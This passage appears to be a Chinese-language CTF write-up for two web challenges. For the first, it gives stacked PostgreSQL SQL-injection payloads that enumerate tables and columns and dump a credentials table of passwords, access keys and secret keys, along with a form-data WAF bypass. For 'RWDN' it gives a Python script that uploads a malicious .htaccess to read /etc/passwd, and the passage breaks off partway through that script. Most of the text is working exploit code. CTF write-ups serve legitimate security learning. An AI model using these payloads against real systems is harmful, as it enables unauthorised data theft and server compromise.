 1. 空用户名登陆 : username=&password=rdd

![](https://i.imgur.com/lE37cBd.png)

2. 使用form-databypass waf

![](https://i.imgur.com/YP2krcO.png)

3. 找到一个表名target_credentials的表

```
';select tablename,schemaname from pg_tables where tablename like 'ta%' limit 1 offset 1;--
```

![](https://i.imgur.com/QeAnvXq.png)

4. 获取target_credentials表的列:id,account,password,access_key,secret_key

```
';SELECT column_name,1 FROM information_schema.columns WHERE table_name='target_credentials' limit 1 offset 0;--
```


![](https://i.imgur.com/2aULmHg.png)

5. GET FLAG!

```
';SELECT concat(id,account,password,access_key,secret_key),1 FROM target_credentials where  id ='1
```

![](https://i.imgur.com/7Y2udZX.png)


### RWDN

1. 双文件上传能绕过白名单任意文件上传，传.htaccess，通过.htaccess读取文件 

```python 
import requests,re

session = requests.session()

file_content="ErrorDocument 404 %{file:/etc/passwd}"
filename=".htaccess"

burp0_url = "http://47.243.75.225:31337/upload?formid=form-1e5eb93c-a7f4-4d16-9981-618e426c07dd"
burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryS5VjK1pba1yEbdzT", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://47.243.75.225:31337/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en-GB;q=0.8,en;q=0.7", "Connection": "close"}
burp0_data = "------WebKitFormBoundaryS5VjK1pba1yEbdzT\r\nContent-Disposition: form-data; name=\"form-1e5eb93c-a7f4-4d16-9981-618e426c07dd\"; filename=\"smity.txt\"\r\nContent-Type: text/x-sh\r\n\r\n"+file_content+"\r\n------WebKitFormBoundaryS5VjK1pba1yEbdzT--"
r=session.post(burp0_url, headers=burp0_headers, data=burp0_data)

info = re.findall(r'http://47.243.75.225:31338/(.*?)/smity.txt',r.text)

session = requests.session()

burp0_url = "http://47.243.75.225:31337/upload?formid=b"
```